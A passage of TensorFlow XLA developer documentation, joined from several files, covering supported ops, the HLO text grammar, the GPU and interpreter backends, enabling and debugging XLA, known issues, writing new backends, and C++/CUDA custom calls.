`TensorArrayGatherV3`                 | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayGradV3`                   |
`TensorArrayReadV3`                   | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayScatterV3`                | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArraySizeV3`                   |
`TensorArraySplitV3`                  | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayV3`                       | `dtype={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TensorArrayWriteV3`                  | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Tile`                                | `Tmultiples={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`Transpose`                           | `Tperm={int32,int64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`TruncateDiv`                         | `T={complex64,double,float,int32,int64}`
`TruncateMod`                         | `T={double,float,int32,int64}`
`Unpack`                              | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`UnsortedSegmentSum`                  | `Tnumsegments={int32,int64}`<br>`Tindices={int32,int64}`<br>`T={complex64,double,float,int32,int64,uint32,uint64}`
`VarIsInitializedOp`                  |
`VariableShape`                       | `out_type={int32,int64}`
`XlaWhile`                            | `T={bool,complex64,double,float,int32,int64,resource,uint32,uint64}`
`ZerosLike`                           | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_Arg`                                | `T={bool,complex64,double,float,int32,int64,resource,uint32,uint64}`
`_ArrayToList`                        | `out_types={bool,complex64,double,float,int32,int64,uint32,uint64}`<br>`T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_ListToArray`                        | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`<br>`Tin={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_Retval`                             | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_XLARecv`                            | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`
`_XLASend`                            | `T={bool,complex64,double,float,int32,int64,uint32,uint64}`

To regenerate this table, run:

```shell
bazel run -c opt -- tensorflow/compiler/tf2xla:tf2xla_supported_ops --device=XLA_GPU_JIT
```
<p align="center">
  
</p>

XLA (Accelerated Linear Algebra) is a domain-specific compiler for linear
algebra that optimizes TensorFlow computations. See the
[documentation](./g3doc/index.md).
# XLA Interpreter Backend

The XLA Interpreter backend operates at HLO-level by ingesting a HloModule and
evaluating the result of the HLO graph directly with HloEvaluator, without
lowering it further (to LLVM IR for example) before execution as other backends
(CPU and GPU for example) do.

Its key components are:

*   [`InterpreterCompiler`] despite the inherited naming of "compiler", all
    `InterpreterCompiler` really does is the following:
    1.  Runs certain HLO optimization passes on the given HLO graph.
    2.  Generates an `InterpreterExecutable` from the optimized HLO graph.
    3.  Registers itself in the global compiler factory registry.
*   [`InterpreterExecutable`]: responsible for running input HLO graph through
    the `HloEvaluator`, allocating output buffer and finally copying evaluated
    Literal result over.
*   [`HloEvaluator`]: traverses a HLO graph and evaluates each node in DFS
    ordering along the way.
# HLO Text Syntax

```yacc
hlo_module
  : 'HloModule' name computations
  ;

/* If no computation is marked as ENTRY, the last computation will be the entry
computation of the module.*/
computations
  : computation
  | computation computations
  ;

computation
  : 'ENTRY' name param_list_to_shape instruction_list
  | name param_list_to_shape instruction_list
  | 'ENTRY' name instruction_list
  | name instruction_list
  ;

/* If no instruction is marked as ROOT, the last instruction will be the root of
its computation. */
instruction_list
  : '{' instruction_list1 '}'
  ;
instruction_list1
  : instruction
  | instruction_list1 instruction
  ;
instruction
  : 'ROOT' name '=' shape opcode operands extra_attributes
  | name '=' shape opcode operands extra_attributes
  ;

operands
  : '(' operands1 ')'
  ;
operands1
  : /*empty*/
  | operand
  | operands1 ',' operand
  ;
operand
  : shape name
  | name
  ;

attributes
  : /*empty*/
  | ',' attribute
  | ',' attribute attributes
  ;
attribute
  : attribute_name attribute_value
  ;
attribute_value
  : kInt
  | kName
  | [0-9bf]{2,}_[0-9io]{2,}->[0-9bf]{2,}                /*dim_labels_pattern*/
  | [0-9]+(x[0-9]+)+                                    /*dxd_pattern*/
  | [0-9]+_[0-9]+(_[0-9]+)?(x[0-9]+_[0-9]+(_[0-9]+)?)*  /*pad_pattern*/
  | '{' sub_attributes '}'
  ;

param_list_to_shape
  : param_list '->' shape
  ;

param_list
  : '(' param_list1 ')'
  ;
param_list1
  : /*empty*/
  | param
  | param_list1 ',' param
  ;
param
  : name shape
  ;

shape
  : shape_val_
  | '(' tuple_elements ')'
  ;
tuple_elements
  : /*empty*/
  | shape (',' shape)*
  ;

name
  : identifier ':'
  | '%' identifier
  | identifier
  ;

identifier
  : [a-zA-Z_][a-zA-Z0-9_.-]*
  ;

/* literal is in the right hand side of a constant instruction. */
literal
  : tuple
  | non_tuple
  ;
tuple
  : shape '(' literal_list ')'
  ;
literal_list
  : /*empty*/
  : literal
  | literal_list ',' literal
  ;
non_tuple
  : rank01
  | rank2345
  ;
rank2345
  : nested_array
  ;
```
# XLA GPU Backend

<!--* freshness: { owner: "sanjoy" owner: "timshen" reviewed: "2021-05-10" } *-->

## Compile time

At compile time,
[`GpuCompiler`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/xla/service/gpu/gpu_compiler.h)
generates
[`GpuExecutable`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/xla/service/gpu/gpu_executable.h),
whose `ExecuteOnStream` interface will be called by the XLA service at runtime.
The figure below shows the work flow of `GpuCompiler`.



<center></img></center>

### Optimization

`GpuCompiler` runs a pipeline of target-independent and target-dependent
optimizations on the input HLO graph. For example, it folds
[`Transpose`](https://www.tensorflow.org/xla/operation_semantics#transpose) into
[`Dot`](https://www.tensorflow.org/xla/operation_semantics#dot) in certain
situations so that the `Transpose` instruction can be elided in a cuBLAS gemm
call.

### Canonicalization

After HLO optimizations, `GpuCompiler` runs canonicalization transformations to
ensure `IrEmitter` can emit valid IR. Canonicalization makes later IR emission
easier, because `IrEmitter` currently works on one HLO instruction at a time
without a global view of the entire graph.

### Buffer Analysis

The buffer assignment pass assigns a buffer if necessary to store the result of
each HLO instruction. Actual buffer allocation happens at runtime. Therefore, at
compile time, the buffer analysis assigns `BufferAllocation`s, which contains
metadata (such as the index and shape of the buffer) for `GpuExecutable` to
allocate and deallocate buffers.

### LMHLO Conversion

`GpuCompiler` takes the optimized HLO and `BufferAssignment`, and convert them
to the MLIR dialect
[`LMHLO`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/mlir/hlo/include/mlir-hlo/Dialect/lhlo/IR/lhlo_ops.td).

The `LMHLO` dialect is a graph consists of `LMHLO` ops. `LMHLO` ops are
buffer-based and sequentially ordered. The sequential order reflects the
execution order.

In `LMHLO`, direct operand-user information is stripped away, as each op is only
connected with its buffers, not ops which generate those buffers.

Notice that some `LMHLO` ops, e.g. `lmhlo.fusion` or `lmhlo.reduce`, contain
[`MHLO`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/mlir/hlo/include/mlir-hlo/Dialect/mhlo/IR/hlo_ops.td)-based
regions. They are tensor-based `MHLO` regions because ops in them don't have
buffers associated.

The code that converts XLA HLO to `LMHLO` is
[here](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/mlir/xla/transforms/mhlo_to_lhlo_with_xla.h).

Currently, lowering of those `MHLO` regions takes a twist:

*   First, `MHLO` regions get converted back to XLA HLO graphs.
*   Then the converted XLA HLO graphs are handled by
    [`FusedIrEmitter`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/xla/service/llvm_ir/fused_ir_emitter.h)
    and
    [`ElementalIrEmitter`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/xla/service/elemental_ir_emitter.h).

### IR Emission

`IrEmitter` emits CUDA kernels in LLVM IR to implement most `LMHLO` operations
in the input graph. `GpuCompiler` then compiles emitted LLVM IR to PTX using
LLVM as a JIT compiler. `IrEmitter` does not need to emit IR for some
instructions. For example, `GpuCompiler` implements certain Dot instructions as
cuBLAS gemms, which do not require any customized kernels.

`IrEmitter` has two subclasses:

*   `IrEmitterUnnested`, which emits code for all `LMHLO` instructions, and
*   `IrEmitterNested`, which handles instructions in nested computations (e.g.
    those scalar computations in `Map` and `Reduce`).

`IrEmitterUnnested` emits zero or more global functions for each `LMHLO`
instruction. In contrast, `IrEmitterNested` emits a device function for each HLO
instruction. These device functions, if small, are likely to be inlined to
kernels.

### Thunk Building

Besides emitting LLVM IR, `IrEmitter` also generates a sequence of
[thunks](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/xla/service/gpu/thunk.h).
Each thunk contains metadata for `GpuExecutable` to invoke an HLO instruction at
runtime. For HLO instructions implemented as cuBLAS gemms, `IrEmitter` generates
`GemmThunk`s whose `ExecuteOnStream` interface calls a cuBLAS gemm via
[StreamExecutor](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/stream_executor)
APIs. For instructions implemented as customized kernels, `IrEmitter` generates
`KernelThunk`s which contain necessary arguments for launching kernels.

<center></img></center>

For instance, the figure above shows an HLO graph that performs an elementwise
add on two input arrays of shape `f32[256]`. Suppose the buffer analysis assigns
buffer 0, 1, and 2 to `Param0`, `Param1`, and `Add`, respectively. Also suppose
`IrEmitter` emits a kernel named "add" for the `Add` instruction. In this case,
`IrEmitter` generates

```
KernelThunk { input buffers = [0, 1], output buffer = [2], kernel name = "add" }
```

At runtime, `GpuExecutable` launches the kernel named "add" with the base
addresses of buffer 0, 1, and 2.

### Constructing GpuExecutable

Finally, `GpuCompiler` constructs a `GpuExecutable` object that wraps the PTX
assembly and the thunk sequence generated by the `IrEmitter`.

## Runtime

At runtime, `GpuExecutable` does the following:

1.  Allocates all buffers assigned by the buffer analysis.
2.  Invokes all the thunks in its thunk sequence by calling their
    `ExecuteOnStream` interface. The base address of the allocated buffers are
    passed as an array of `void*` to the kernels and device functions emitted by
    the `IrEmitter`.
3.  Deallocates all buffers that do not live out.
Common utilities and abstractions for handling and emitting LLVM IR for XLA
backends.
# XLA: Optimizing Compiler for Machine Learning

XLA (Accelerated Linear Algebra) is a domain-specific compiler for linear
algebra that can accelerate TensorFlow models with potentially no source code
changes.

The results are improvements in speed and memory usage: e.g. in BERT
[MLPerf](https://blog.tensorflow.org/2020/07/tensorflow-2-mlperf-submissions.html)
submission using 8 Volta V100 GPUs using XLA has achieved a ~7x performance
improvement and ~5x batch size improvement:

<div style="width:90%; margin:auto; margin-bottom:10px; margin-top:20px;">

</div>

## Introduction

When a TensorFlow program is run, all of the operations are executed
individually by the TensorFlow executor. Each TensorFlow operation has a
precompiled GPU kernel implementation that the executor dispatches to.

XLA provides an alternative mode of running models: it compiles the TensorFlow
graph into a sequence of computation kernels generated specifically for the
given model. Because these kernels are unique to the model, they can exploit
model-specific information for optimization. For example, let's look at an
optimization XLA does in the context of a simple TensorFlow computation:

```
def model_fn(x, y, z):
  return tf.reduce_sum(x + y * z)
```

Run without XLA, the graph launches three kernels: one for the multiplication,
one for the addition and one for the reduction. However, XLA can optimize the
graph so that it computes the result in a single kernel launch. It does this by
"fusing" the addition, multiplication and reduction into a single GPU kernel.
Moreover, this fused operation does not write out the intermediate values
produced by `y*z` and `x+y*z` to memory; instead it "streams" the results of
these intermediate computations directly to their users while keeping them
entirely in GPU registers. Fusion is XLA's single most important optimization.
Memory bandwidth is typically the scarcest resource on hardware accelerators, so
removing memory operations is one of the best ways to improve performance.

## Enable XLA for TensorFlow models

### Explicit compilation with `tf.function(jit_compile=True)`

Explicit compilation API offers a fine-grained control for choosing which
functions should be compiled. For example, the following TensorFlow function
which performs the MNIST training is compiled with XLA:

```
@tf.function(jit_compile=True)
def train_mnist(images, labels):
    images, labels = cast(images, labels)

    with tf.GradientTape() as tape:
      predicted_labels = layer(images)
      loss = tf.reduce_mean(tf.nn.sparse_softmax_cross_entropy_with_logits(
          logits=predicted_labels, labels=labels
      ))
    layer_variables = layer.trainable_variables
    grads = tape.gradient(loss, layer_variables)
    optimizer.apply_gradients(zip(grads, layer_variables))
```

The `jit_compile` API has _must-compile_ semantics: either the entire
function is compiled with XLA, or an `errors.InvalidArgumentError` exception is
thrown. XLA can not currently compile functions where dimensions are not
_inferrable_: that is, if it's not possible to infer the dimensions of all
tensors without running the entire computation. For example, the following
function will not compile:

```
@tf.function
def not_compilable(x):
  return tf.unique(x)
```

Shapes can vary across the runs though:

```
@tf.function(jit_compile=True)
def recompiled_on_launch(a, b):
  return a + b

recompiled_on_launch(tf.ones([1, 10]), tf.ones([1, 10]))
recompiled_on_launch(tf.ones([1, 100]), tf.ones([1, 100]))
```

Note: Nesting behavior: the function will be compiled if at least one function
in its call stack has `jit_compile=True`.

See the [tutorial colab](./tutorials/jit_compile.ipynb) for a more detailed
usage example, and a
[tutorial video](https://www.youtube.com/watch?v=cPAD9vLKE0c) on
`jit_compile=True` usage.

### Auto-clustering

A simple way to start using XLA in TensorFlow models without any changes is to
enable _auto-clustering_, which automatically finds _clusters_ (connected
subgraphs) within the TensorFlow functions which can be compiled and executed
using XLA. Auto-clustering on GPU can be enabled by setting the `TF_XLA_FLAGS`
environment variable:

Note: In TF2, only the code inside `tf.function` will be clustered.

```
$ TF_XLA_FLAGS=--tf_xla_auto_jit=2 path/to/your/tf/program
```

Auto-clustering is currently optimized for GPU workloads, but it can also be
enabled on CPU by additionally using the flag `--tf_xla_cpu_global_jit`:

```
$ TF_XLA_FLAGS="--tf_xla_auto_jit=2 --tf_xla_cpu_global_jit" path/to/your/program
```

Note: Auto-clustering support on CPU and on multi-GPU environments is
experimental.

For a detailed usage example see the
[auto-clustering tutorial colab](./tutorials/autoclustering_xla.ipynb).

### AOT (Ahead-of-time) compilation for CPU with `tfcompile`

You can also use a standalone [`tfcompile`](./tfcompile.md) tool, which converts
TensorFlow graph into executable code (for x86-64 CPU only).

## Inspect compiled programs

XLA provides introspection facilities which let you inspect the generated
programs. To dump the generated programs, use the environment variable
`XLA_FLAGS`:

```
$ XLA_FLAGS="--xla_dump_to=/tmp/generated" TF_XLA_FLAGS="--tf_xla_auto_jit=2" my/tensorflow/program
```

After the dumping is performed, you can find the following files in
`/tmp/generated`:

-   `module_XXXX.*_optimizations.txt` Generated
    [XLA programs](./operation_semantics.md), one per each compiled cluster.
    Attaching those when submitting XLA bug reports is extremely helpful!

-   `module_XXXX.ir-*.ll` Generated files in
    [LLVM](https://llvm.org/docs/LangRef.html) intermediate representation, with
    [NVPTX](https://llvm.org/docs/NVPTXUsage.html) intrinsics.

-   `module_XXXX.ptx` Generated
    [PTX](https://docs.nvidia.com/cuda/parallel-thread-execution/index.html)
    files.

You can also dump the graph visualizing the embedding of XLA clusters inside of
the TensorFlow graph with:

```
$ TF_DUMP_GRAPH_PREFIX=/tmp/generated TF_XLA_FLAGS="--tf_xla_clustering_debug"
```

## Reproducible bug reports

A bug report is much easier to reproduce if it includes dumps for the generated
XLA programs and the used auto-clustering embedding.
To generate them for a TensorFlow program running with auto-clustering, launch:

```
$ TF_DUMP_GRAPH_PREFIX=/tmp/generated \
  TF_XLA_FLAGS="--tf_xla_clustering_debug --tf_xla_auto_jit=2" \
  XLA_FLAGS="--xla_dump_hlo_as_text --xla_dump_to=/tmp/generated" \
    my/tensorflow/program"
```

When filing bugs, attach the contents of the `/tmp/generated` directory
(referenced above).

If possible, try to isolate
a bug to a single XLA program by using the
[`replay_computation`](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/compiler/xla/tools/run_hlo_module_main.cc)
and iteratively running it on generated programs.

## Further reading

-   [Known Issues](./known_issues.md) List of known issues with XLA
-   [XLA Architecture](./architecture.md): Overview of the XLA architecture
-   [XLA - TensorFlow, Compiled](https://developers.googleblog.com/2017/03/xla-tensorflow-compiled.html):
    Read on Google Developers Blog
-   Check out the
    [XLA source](https://github.com/tensorflow/tensorflow/tree/master/tensorflow/compiler/xla)
    on Github!

## XLA Frontends

Apart from TensorFlow, XLA programs can be generated by:

-   [JAX](https://github.com/google/jax): Composable transformations of
    Python+NumPy programs
-   [Julia](https://github.com/JuliaTPU/XLA.jl): The Julia language for
    scientific computing
-   [PyTorch](https://github.com/pytorch/xla): PyTorch framework
-   [Nx](https://github.com/elixir-nx/nx): Numerical computing library for the
    Elixir programming language

## Talks

### Using XLA from TF using `jit_compile=True`

<iframe frameborder="0" allow="accelerometer; autoplay;
encrypted-media; gyroscope; picture-in-picture; fullscreen" width="640" height="360"
src="https://www.youtube.com/embed/cPAD9vLKE0c?origin=https%3A%2F%2Fwww.tensorflow.org&amp;autohide=1&amp;showinfo=0&amp;video-id=kAOanJczHA0&amp;enablejsapi=1&amp;widgetid=1" id="widget2" data-title="YouTube video player"></iframe>

### XLA Overview

<iframe frameborder="0" allow="accelerometer; autoplay;
encrypted-media; gyroscope; picture-in-picture; fullscreen" width="640" height="360"
src="https://www.youtube.com/embed/kAOanJczHA0?origin=https%3A%2F%2Fwww.tensorflow.org&amp;autohide=1&amp;showinfo=0&amp;video-id=kAOanJczHA0&amp;enablejsapi=1&amp;widgetid=1"
id="widget2" data-title="YouTube video player"></iframe>
# Known Issues

Compilation with XLA can greatly improve the performance of your programs, but
the TensorFlow interop has a number of known sharp corners.

## `tf.Variable` on a different device

*Error message*: `INVALID_ARGUMENT: Trying to access resource <Variable>
(defined @ <Loc>) located in device CPU:0 from device GPU:0`

XLA cluster runs on exactly one device, and it can not read or write to
`tf.Variable` located on a different device. Usually this error message
indicates that the variable was not placed on the right device to begin with.
The error message should precisely specify the location of the offending
variable.

NOTE: `tf.Variable` of type `int32` are always placed on a host, and can not be
placed on a GPU. As a workaround, `int64` can be used.

## TensorArray TF/XLA interconversion is not supported

*Error message*: `Support for TensorList crossing the XLA/TF boundary is not
implemented`.

XLA supports `tf.TensorArray`. However, the _interconversion_ between TF and XLA
representations is not implemented yet. This error often arises when the
`TensorArray` is used inside the compiled block, but the derivative is taken
outside.

*Workaround*: compile the outermost scope which is taking the derivative.

## TensorFlow while loops need to be bounded (or have backprop disabled)

*Error message*: `XLA compilation requires a fixed tensor list size. Set the max
number of elements. This could also happen if you're using a TensorArray in a
while loop that does not have its maximum_iteration set, you can fix this by
setting maximum_iteration to a suitable value`.

TF while [loops](https://www.tensorflow.org/api_docs/python/tf/while_loop)
created using `tf.while_loop` support backpropagation by accumulating all
intermediate results in a `TensorArray`, but XLA only supports bounded
`TensorArray`s.

*Workaround*: all compiled while loops need to either have `maximum_iterations`
parameter set to a constant value known at compile time, or backpropagation
disabled using `back_prop=False`.

## Dynamic `tf.TensorArray` is not supported

Writes into `tf.TensorArray(..., dynamic_size=True)` are not compilable with
XLA, as such writes require an unknown number of reallocations when the array
exceeds the original bound.

*Workaround*: provide a statically known bound to your arrays.

## Random number generation ignores TF seed

XLA currently ignores TF seeds to random operations. This affects stateful TF
random operations, such as `tf.random.normal`, or `tf.nn.dropout`. XLA will
behave as if the compilation was seeded with a new unique seed at each run
within the same process (the first run of the process will always yield the same
result).

*Workaround*: use
[the recommended RNGs](https://www.tensorflow.org/guide/random_numbers#stateless_rngs)
such as `tf.random.stateless_uniform` or the `tf.random.Generator` directly.
# Developing a new backend for XLA

This preliminary guide is for early adopters that want to easily retarget
TensorFlow to their hardware in an efficient manner. The guide is not
step-by-step and assumes knowledge of [LLVM](http://llvm.org),
[Bazel](https://bazel.build/), and TensorFlow.

XLA provides an abstract interface that a new architecture or accelerator can
implement to create a backend to run TensorFlow graphs. Retargeting XLA should
be significantly simpler and scalable than implementing every existing
TensorFlow Op for new hardware.

Most implementations will fall into one of the following scenarios:

1.  Existing CPU architecture not yet officially supported by XLA, with or
    without an existing [LLVM](http://llvm.org) backend.
2.  Non-CPU-like hardware with an existing LLVM backend.
3.  Non-CPU-like hardware without an existing LLVM backend.

> Note: An LLVM backend can mean either one of the officially released LLVM
> backends or a custom LLVM backend developed in-house.

## Scenario 1: Existing CPU architecture not yet officially supported by XLA

In this scenario, start by looking at the existing
[XLA CPU backend](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/cpu/).
XLA makes it easy to retarget TensorFlow to different CPUs by using LLVM, since
the main difference between XLA backends for CPUs is the code generated by LLVM.
Google tests XLA for x64 and ARM64 architectures.

If the hardware vendor has an LLVM backend for their hardware, it is simple to
link the backend with the LLVM built with XLA. In JIT mode, the XLA CPU backend
emits code for the host CPU. For ahead-of-time compilation,
[`xla::AotCompilationOptions`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/compiler.h)
can provide an LLVM triple to configure the target architecture.

If there is no existing LLVM backend but another kind of code generator exists,
it should be possible to reuse most of the existing CPU backend.

## Scenario 2: Non-CPU-like hardware with an existing LLVM backend

It is possible to model a new
[`xla::Compiler`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/compiler.h)
implementation on the existing
[`xla::CPUCompiler`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/cpu/cpu_compiler.cc)
and [`xla::GPUCompiler`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/gpu/nvptx_compiler.cc)
classes, since these already emit LLVM IR. Depending on the nature of the
hardware, it is possible that many of the LLVM IR generation aspects will have
to be changed, but a lot of code can be shared with the existing backends.

A good example to follow is the
[GPU backend](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/gpu/)
of XLA. The GPU backend targets a non-CPU-like ISA, and therefore some aspects
of its code generation are unique to the GPU domain. Other kinds of hardware,
e.g. DSPs like Hexagon (which has an upstream LLVM backend), can reuse parts of
the LLVM IR emission logic, but other parts will be unique.

## Scenario 3: Non-CPU-like hardware without an existing LLVM backend

If it is not possible to utilize LLVM, then the best option is to implement a
new backend for XLA for the desired hardware. This option requires the most
effort. The classes that need to be implemented are as follows:

*   [`StreamExecutor`](https://www.tensorflow.org/code/tensorflow/stream_executor/stream_executor.h):
    For many devices not all methods of `StreamExecutor` are needed. See
    existing `StreamExecutor` implementations for details.
*   [`xla::Compiler`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/compiler.h):
    This class encapsulates the compilation of an HLO computation into an
    `xla::Executable`.
*   [`xla::Executable`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/executable.h):
    This class is used to launch a compiled computation on the platform.
*   [`xla::TransferManager`](https://www.tensorflow.org/code/tensorflow/compiler/xla/service/transfer_manager.h):
    This class enables backends to provide platform-specific mechanisms for
    constructing XLA literal data from given device memory handles. In other
    words, it helps encapsulate the transfer of data from the host to the device
    and back.
# XLA Custom Calls

This document describes how to write and use XLA "custom calls". Custom calls
let you invoke code written in a programming language like C++ or CUDA from an
XLA program.

Warning: Custom calls are a low-level power-user feature. It is easy to break
your program in difficult-to-debug (and even difficult-to-notice) ways using
custom-calls. You shouldn't use custom calls unless you're prepared to debug XLA
yourself when something goes wrong, and you should expect relatively less
assistance from XLA developers if you run into trouble.

Warning: The custom-call API/ABI is not currently stable. We don't intend to
change it capriciously, but it may change. Some possible future changes are
described below.

## Custom-call on CPU

You can create an HLO instruction which represents a custom-call via XLA's
client API. This is not exposed via TensorFlow as of writing.

For example, the following code uses a custom-call to compute `A[i] = B[i %
128]+ C[i]` on the CPU. (Of course you could -- and should! -- do this with
regular HLO.)

```c++
#include "tensorflow/compiler/xla/client/xla_builder.h"
#include "tensorflow/compiler/xla/service/custom_call_target_registry.h"

void do_it() {
  xla::XlaBuilder b("do_it");
  xla::XlaOp param0 =
      xla::Parameter(&b, 0, xla::ShapeUtil::MakeShape(xla::F32, {128}), "p0");
  xla::XlaOp param1 =
      xla::Parameter(&b, 1, xla::ShapeUtil::MakeShape(xla::F32, {2048}), "p1");
  xla::XlaOp custom_call =
      xla::CustomCall(&b, "do_custom_call", /*operands=*/{param0, param1},
                      /*shape=*/xla::ShapeUtil::MakeShape(xla::F32, {2048}));
}

void do_custom_call(void* out, const void** in) {
  float* out_buf = reinterpret_cast<float*>(out);
  const float* in0 = reinterpret_cast<const float*>(in[0]);
  const float* in1 = reinterpret_cast<const float*>(in[1]);
  for (int i = 0; i < 2048; ++i) {
    out_buf[i] = in0[i % 128] + in1[i];
  }
}
XLA_REGISTER_CUSTOM_CALL_TARGET(do_custom_call, "Host");
```

Notice that the function `do_custom_call` needs to know the dimensions of the
buffers it operates over. In this example we hardcode the sizes 128 and 2048. If
you don't want to do this, you can pass the dimensions in as parameters to the
call.

## Custom-call on GPU

The GPU custom call framework is somewhat different than that on the CPU. Here
is a CUDA example that does the same `A[i] = B[i % 128] + C[i]` computation as
the CPU code above.

```c++
void do_it() { /* same implementation as above */ }

__global__ custom_call_kernel(const float* in0, const float* in1, float* out) {
  size_t idx = blockIdx.x * blockDim.x + threadIdx.x;
  out[idx] = in0[idx % 128] + in1[idx];
}

void do_custom_call(CUstream stream, void** buffers,
                    const char* opaque, size_t opaque_len) {
  const float* in0 = reinterpret_cast<const float*>(buffers[0]);
  const float* in1 = reinterpret_cast<const float*>(buffers[1]);
  float* out = reinterpret_cast<float*>(buffers[2]);

  const int64 block_dim = 64;
  const int64 grid_dim = 2048 / block_dim;
  custom_call_kernel<<<grid_dim, block_dim,
                       /*dynamic_shared_mem_bytes=*/0, stream>>>(in0, in1, out);
}
XLA_REGISTER_CUSTOM_CALL_TARGET(do_custom_call, "CUDA");
```

Notice first that the GPU custom call function *is still a function executed on
the CPU*. Our `do_custom_call` CPU function is responsible for enqueueing work
on the GPU. Here it launches a CUDA kernel, but it could also do something else,
like call cublas.

`buffers` is an array of pointers which lives on the host, and each element it
contains points to device (i.e. GPU) memory. The parameters come first, followed
by the output value. This is notably different from the CPU calling convention,
which has two params, `ins` and `out`. The main reason we diverge is to make it
possible to handle tuple-shaped inputs/outputs efficiently; see the section
below.

As in the CPU example, we've hardcoded the input and output buffer sizes into
our custom call. However unlike in the CPU case, passing the buffer sizes in as
operands to the custom call would not work well. Usually we need the buffer
sizes available to us on the CPU; e.g. when launching a kernel, we need to know
the block/grid dimensions to use. But if we were to pass the buffer sizes as
operands to our custom call, their values would live in GPU memory. We'd then
have to do an expensive synchronous device-to-host memcpy at the start of our
operation just to read the sizes.

To let you work around this, we provide the `opaque` parameter. You can set this
to an arbitrary string of bytes when you create the custom call:

```c++
std::string opaque = "...";
xla::CustomCall(&b, "do_custom_call", /*operands=*/{param0, param1},
                /*output_shape=*/xla::ShapeUtil::MakeShape(xla::F32, {2048}),
                opaque);
```

Since `xla::Shape` has a protocol buffer representation, you could store this
serialized proto inside of `opaque` and deserialize it within your GPU
custom-call. Note however that although `xla::ShapeProto` does not change
frequently, it *does* change. Check the git log to see how it has changed in the
past.

## Signalling an error.

If your custom call encounters an error, you can signal the error to the XLA
runtime (instead of e.g. crashing or returning nonsense in the output buffers)
by using the following signature for your function on CPU:

```c++
#include "tensorflow/compiler/xla/service/custom_call_status.h"

void do_custom_call(void* out, const void** in, XlaCustomCallStatus* status);
```

... and on GPU:

```c++
#include "tensorflow/compiler/xla/service/custom_call_status.h"

void do_custom_call(CUstream stream, void** buffers, const char* opaque,
                    size_t opaque_len, xla::XlaCustomCallStatus* status);
```

You can signal failure by using `XlaCustomCallStatusSetFailure`, e.g.:

```c++
void do_custom_call(void* out, const void** in, XlaCustomCallStatus* status) {
  // ... do some work.

  if (bad_condition) {
    char* error_message = "An error occurred";
    XlaCustomCallStatusSetFailure(status, error_message, strlen(error_message));
    return;
  }

  // ... continue.
}
```

You can also use `XlaCustomCallStatusSetSuccess` to indicate success, but the
`XlaCustomCallStatus` is in a success state by default, so ignoring it
completely will also indicate success.

When using custom call functions with this signature, you must create the
corresponding `custom-call` op with the appropriate API version set, e.g.:

```c++
xla::CustomCall(&b, "do_custom_call", /*operands=*/{param0, param1},
                /*output_shape=*/xla::ShapeUtil::MakeShape(F32, {2048}),
                opaque, /*has_side_effect=*/false,
                /*output_operand_aliasing=*/{}, /*literal=*/nullptr,
                /*schedule=*/xla::CustomCallSchedule::SCHEDULE_NONE,
                /*api_version=*/API_VERSION_STATUS_RETURNING);
```

NOTE: In the future all clients will be required to migrate their custom call
functions to the new API version and the old one will be deprecated. For custom
calls that can't fail, you can simply add the new `XlaCustomCallStatus*`
parameter and then ignore it.

On failure, none of the custom call outputs will be used; the XLA runtime will
terminate the computation. It is not possible for an HLO computation to recover
from the error (e.g. by catching and handling it).

## Passing tuples to custom-calls

Consider the following custom-call.

```c++
using xla::ShapeUtil;
using xla::F32;
Shape p0_shape = ShapeUtil::MakeTuple({
    ShapeUtil::MakeShape(F32, {32}),
    ShapeUtil::MakeTuple({
        ShapeUtil::MakeShape(F32, {64}),
        ShapeUtil::MakeShape(F32, {128}),
    }),
    ShapeUtil::MakeShape(F32, {256}),
});
xla::XlaOp p0 = xla::Parameter(0, p0_shape, "p0");

Shape out_shape = ShapeUtil::MakeTuple({
  ShapeUtil::MakeShape(F32, {512}),
  ShapeUtil::MakeShape(F32, {1024}),
});
xla::CustomCall(&b, "do_custom_call", /*operands=*/{p0}, out_shape);
```

On both CPU and GPU, a tuple is represented in memory as an array of pointers.
In C++-pseudocode, parameter 0 above is laid out as follows.

```c++
// In-memory layout of parameter 0 from custom-call above.  True on both CPU
// and GPU.
float* subbuf0 = new float[32];
float* subbuf1 = new float[64];
float* subbuf2 = new float[128]
float* subbuf3 = new float[256];

void* subtuple = new void*[2];
(*subtuple)[0] = subbuf1;
(*subtuple)[1] = subbuf2;

void* p0 = new void*[3];
(*p0)[0] = subbuf0;
(*p0)[1] = subtuple;
(*p0)[2] = subbuf3;
```

Although the in-memory representation of tuples is the same in CPU and GPU, they
are handled differently in the CPU and GPU custom-call calling conventions.

### Tuple outputs as temp buffers

Tuple inputs to custom-calls are a convenience, but they aren't strictly
necessary. If we didn't support tuple inputs to custom calls, you could always
unpack the tuples using get-tuple-element before passing them to the custom
call.

On the other hand, tuple *outputs* do let you do things you couldn't otherwise.

